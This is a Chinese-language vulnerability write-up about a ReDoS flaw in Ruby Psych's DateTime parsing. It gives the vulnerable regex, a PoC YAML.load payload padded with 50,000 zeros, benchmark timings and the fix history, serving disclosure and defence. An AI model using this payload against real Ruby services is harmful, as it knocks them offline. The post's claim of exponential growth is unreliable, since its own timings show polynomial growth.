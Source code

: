 ```yaml
---
date: 2025-08-05T07:43:47+08:00
title: Ruby Psych库中的ReDoS漏洞分析与修复
tags: [Ruby, ReDoS, 漏洞分析, 正则表达式]
authors: qife
image: 
description: 本文详细分析了Ruby Psych库中存在的正则表达式拒绝服务(ReDoS)漏洞，提供了漏洞复现步骤、基准测试数据以及Ruby 3.3.0版本中的回归问题，最终在master分支获得修复。
---
```


# Ruby Psych库中的ReDoS漏洞报告

## 漏洞描述
在Ruby Psych库中发现了一个正则表达式拒绝服务(ReDoS)漏洞，该漏洞存在于`Psych.load`方法处理DateTime反序列化时。攻击者可通过构造特定格式的YAML字符串导致正则表达式匹配时间呈指数级增长。

## 技术细节
漏洞位于以下两个文件中：
- `lib/psych/scalar_scanner.rb#L113`
- `lib/psych/visitors/to_ruby.rb#L83`

问题正则表达式为：
```ruby
/(\d+:\d+:\d+)(?:\.(\d*))?\s*(Z|[-+]\d+(:\d\d)?)?/
```

## 漏洞复现(PoC)
```ruby
require 'yaml'
require 'date'

# 正常情况
YAML.load("--- !ruby/object:DateTime 2022-02-22 07:02:07.096315000 +09:00\n", permitted_classes: [Time, DateTime])

# 触发ReDoS
YAML.load("--- !ruby/object:DateTime 2022-02-22 " + '0' * 50000 + "00:0Z0:0:0", permitted_classes: [Time, DateTime])
```

## 性能基准测试
测试结果显示处理时间随输入长度呈指数增长：
```
       user     system      total        real
   0.000215   0.000212   0.000427 (  0.000422)  # 100字符
   0.002306   0.000005   0.002311 (  0.002314)  # 1000字符
   0.219717   0.000125   0.219842 (  0.219844)  # 10000字符
  21.904961   0.041427  21.946388 ( 21.946604)  # 100000字符
```

## 影响范围
- 漏洞影响允许DateTime反序列化的场景
- 影响有限，因为攻击字符串永远不会匹配TIME值

## 修复情况
- Ruby 3.2.0中已修复
- Ruby 3.3.0出现回归问题
- 最终在master分支修复

## 后续讨论
开发者询问是否需要对Ruby 3.1及以下版本进行修复，但考虑到Ruby 3.1已EOL(生命周期结束)，最终决定不再发布修复版本。

---

